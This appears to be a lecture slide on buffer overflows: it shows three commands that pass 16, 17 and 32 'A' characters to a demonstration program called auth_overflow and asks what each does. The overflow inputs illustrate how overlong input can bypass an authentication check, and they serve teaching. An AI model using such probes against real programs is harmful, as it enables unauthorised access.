

#
>> ./auth_overflow $(perl –e ’print “A”x16’) ?

>> ./auth_overflow $(perl –e ’print “A”x17’) ?

>> ./auth_overflow $(perl –e ’print “A”x32’) ?